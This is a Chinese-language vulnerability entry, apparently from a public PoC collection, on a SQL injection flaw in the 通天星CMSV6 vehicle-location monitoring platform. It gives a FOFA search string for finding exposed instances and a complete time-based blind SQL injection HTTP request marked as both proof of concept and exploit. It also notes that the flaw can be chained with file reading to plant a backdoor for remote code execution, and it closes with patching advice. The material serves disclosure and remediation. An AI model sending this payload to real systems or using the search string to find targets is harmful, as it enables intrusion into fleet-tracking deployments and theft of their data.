

# 通天星CMSV6车载定位监控平台 disable SQL注入漏洞

# 漏洞描述

该漏洞是由于通天星CMSV6车载定位监控平台 /edu_security_officer/disable接口处未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。该漏洞可配合任意文件读取获取网站绝对路径写入后门文件进行远程代码执行。

影响范围

通天星CMSV6车载定位监控平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/808gps/"

POC/EXP：

GET /edu_security_officer/disable;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

官方已发布新版本修复漏洞，建议尽快访问官网（http://www.g-sky.cn/list-70-1.html）或联系官方售后支持获取版本升级安装包或补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
